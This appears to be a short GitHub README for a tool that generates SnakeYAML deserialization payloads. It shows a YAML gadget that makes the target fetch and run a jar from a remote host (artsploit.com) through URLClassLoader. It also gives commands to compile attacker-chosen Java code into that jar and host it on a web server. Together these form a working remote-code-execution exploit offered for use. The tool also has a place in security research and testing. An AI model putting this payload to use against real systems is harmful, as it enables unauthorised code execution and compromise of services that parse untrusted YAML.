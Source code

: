 A tiny project for generating payloads for the SnakeYAML deserialization gadget (taken from https://github.com/mbechler/marshalsec):
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```
Put the java code you want execute into [AwesomeScriptEngineFactory.java](./src/artsploit/AwesomeScriptEngineFactory.java) and compile:
```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

Then place the 'yaml-payload.jar' file in to the web server folder (e.g. artsploit.com/yaml-payload.jar)
